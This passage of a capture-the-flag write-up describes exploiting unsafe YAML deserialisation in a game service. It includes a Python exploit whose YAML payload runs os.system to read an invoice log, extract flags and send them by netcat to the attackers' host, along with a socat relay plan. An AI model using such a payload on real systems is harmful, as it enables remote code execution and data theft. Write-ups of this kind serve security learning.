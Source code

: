 ```python
        logger = logging.getLogger('invoice_controller')
        # logger.debug('invoice-controller logger started.')
    return logger
```

this functions reads `logger-config.yml` and uses it as a template string in order to build a valid yaml. This yaml is then loaded with `yaml.load` using the `yaml.Loader` loader. Then this object is used to build the logger object and return it to the caller.

Browsing the yaml library on the internet we found a few articles talking about an `insecure deserialization` flaw in this library. We then copied this code and made some tests. In the end we achieved `arbitrary code execution` on our local machine.

Now comes the hard part: 40 minutes left and no idea on how to build the exploit. No database dump was achievable since it was in another container... Looking at the file tree we noticed the `accounting` directory, inside it there were two files:
- outstangind-invoices.log
- settled-invoices.log
The first one contains the flags! We built a fast PoC and we dumped the file to a listening netcat connection, it worked! No one else dumped this second bucket until that point, so we redirected the exploit to another team and we submitted the flag to our flag submitter and... `saarsec` first blood announced, _wtf dudes_!!

With a bit of regret we built a better exploit:
- Run socat as a repeater on our server in order to redirect all our inbound requests to the game server
- Inject the yaml and execute a bash command to dump the file, collect the flag one per line and send them via netcat to our socat repeater
- ???
- Profit

```python
import requests
import re
import sys

IP = sys.argv[1]
base_url = f'http://{IP}:7353/'

flag_regex = 'ENO[A-Za-z0-9+\/=]{48}'

payment_type = """
        !!map {
            ? !!str "cash"
            : !!python/objet/apply:os.system [
                !!str "cat accounting/outstanding-invoices.log | egrep -o 'ENO[A-Za-z0-9+\/=]{48}' | nc <ip> <port> -q 10"
            ],
        }
"""

def register(s):
    s.get(base_url)


def add_item(s):
    url = base_url + '/get_bot_response?msg=asd&state={"mode": "alarm", "alarm_time": "12:12"}'
    r = s.get(url)


def inject_payload(s):
    url = base_url + '/get_bot_response?msg=' + payment_type + '&state={"mode": "alarm", "payment": "pending"}'
    r = s.get(url)
    print(r.text)
```